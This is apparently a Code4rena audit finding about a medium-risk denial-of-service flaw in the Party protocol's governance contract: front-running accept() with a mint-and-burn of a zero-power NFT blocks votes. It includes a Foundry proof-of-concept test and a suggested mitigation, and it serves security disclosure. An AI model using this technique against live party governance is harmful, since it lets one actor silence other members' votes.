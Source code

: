## Tags

- bug
- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- sponsor acknowledged
- M-03

# [Burning an NFT can be used to block voting](https://github.com/code-423n4/2023-05-party-findings/issues/19) 

# Lines of code

https://github.com/code-423n4/2023-05-party/blob/main/contracts/party/PartyGovernance.sol#L596-L598


# Vulnerability details

# Burning an NFT can be used to block voting

## Impact

A new validation in the `accept()` function has been introduced in order to mitigate a potential attack to the party governance.

By burning an NFT, a party member can reduce the total voting power of the party just before creating a proposal and voting for it. Since the snapshot used to vote is previous to this action, this means the user can still use their burned voting power while voting in a proposal with a reduced total voting power. This is stated in the comment attached to the new validation:

https://github.com/code-423n4/2023-05-party/blob/main/contracts/party/PartyGovernance.sol#L589-L598

```solidity
589:         // Prevent voting in the same block as the last burn timestamp.
590:         // This is to prevent an exploit where a member can burn their card to
591:         // reduce the total voting power of the party, then propose and vote in
592:         // the same block since `getVotingPowerAt()` uses `values.proposedTime - 1`.
593:         // This would allow them to use the voting power snapshot just before
594:         // their card was burned to vote, potentially passing a proposal that
595:         // would have otherwise not passed.
596:         if (lastBurnTimestamp == block.timestamp) {
597:             revert CannotRageQuitAndAcceptError();
598:         }
```

This change can be abused by a bad actor in order to DoS the voting of a proposal. The call to `accept()` can be front-runned with a call to `burn()` that would trigger the revert in the original transaction.

While this is technically possible, it is not likely that a party member would burn their NFT just to DoS a voting for a single block. However, it might be possible to mint an NFT with zero voting power (in order to keep the voting power unaltered) and burn it in order to block calls to `accept()`.

## Proof of concept

The following test reproduces the issue. Bob's transaction to `accept()` is front-runned and blocked by minting a zero voting power NFT and immediately burning it.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/9a9868c7c3f540811eff6853db14bfc6).

```solidity
function test_PartyGovernanceNFT_BlockVoting() external {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address authority = makeAddr("authority");

    (Party party, , ) = partyAdmin.createParty(
        partyImpl,
        PartyAdmin.PartyCreationMinimalOptions({
            host1: address(this),
            host2: address(0),
            passThresholdBps: 5100,
            totalVotingPower: 100,
            preciousTokenAddress: address(toadz),
            preciousTokenId: 1,
            rageQuitTimestamp: 0,
            feeBps: 0,
            feeRecipient: payable(0)
        })
    );

    vm.prank(address(party));
    party.addAuthority(authority);

    // Mint voting power to alice and bob
    vm.startPrank(address(partyAdmin));

    uint256 aliceToken = party.mint(alice, 50, alice);
    uint256 bobTokenId = party.mint(bob, 50, bob);

    vm.stopPrank();

    // Alice creates proposal
    vm.startPrank(alice);

    uint256 proposalId = party.propose(
        PartyGovernance.Proposal({
            maxExecutableTime: uint40(type(uint40).max),
            cancelDelay: uint40(1 days),
            proposalData: abi.encode(0)
        }),
        0
    );

    vm.stopPrank();

    // Bob is going to vote for proposal but is front-runned by authority to block voting
    // Authority mints a 0 voting token and burns it
    vm.prank(authority);
    uint256 dummyTokenId = party.mint(authority, 0, authority);
    vm.prank(authority);
    party.burn(dummyTokenId);
    // Bob transaction reverts
    vm.expectRevert(PartyGovernance.CannotRageQuitAndAcceptError.selector);
    vm.prank(bob);
    party.accept(proposalId, 0);
}
```

## Recommendation

It is difficult to provide a solution without changing how voting works at the general level in the governance contracts. The issue can be partially mitigated by moving the check to the `proposal()` function. This would prevent the DoS on the `accept()` function while still mitigating the original issue, but would allow the same attack to be performed while members try to create proposals.



## Assessed type

DoS